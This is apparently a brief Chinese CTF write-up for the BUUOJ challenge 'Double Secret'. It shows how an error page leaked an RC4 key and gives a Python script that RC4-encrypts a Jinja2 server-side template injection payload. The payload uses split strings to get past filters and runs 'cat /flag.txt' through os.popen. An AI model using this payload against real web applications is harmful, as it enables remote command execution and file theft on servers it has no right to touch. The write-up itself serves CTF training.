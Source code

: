 ## [CISCN2019 华东南赛区]Double Secret

根据提示猜了个 /secret

```
http://15fd0e7e-28c6-4777-a466-7eee2ff489bb.node4.buuoj.cn:81/secret?secret=asdasd
```

触发报错, 可以看到部分源码

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211021753856.png)

rc4 加密, 密钥为 `HereIsTreasure`

网上找了一堆 rc4 加解密脚本都不行, 最后只能用 wp 里的脚本...

```python
import base64
from urllib.parse import quote

def rc4_main(key = "init_key", message = "init_message"):
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt

def rc4_init_sbox(key):
    s_box = list(range(256))
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    return s_box

def rc4_excrypt(plain, box):
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    cipher = "".join(res)
    print("cipher: %s" %quote(cipher))
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))

rc4_main("HereIsTreasure", r"{{url_for['__global''s__']['__builtins__']['__im''port__']('os')['p''open']('cat /flag.txt')['rea''d']()}}")
```

绕过很简单就不写了

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211021755880.png)

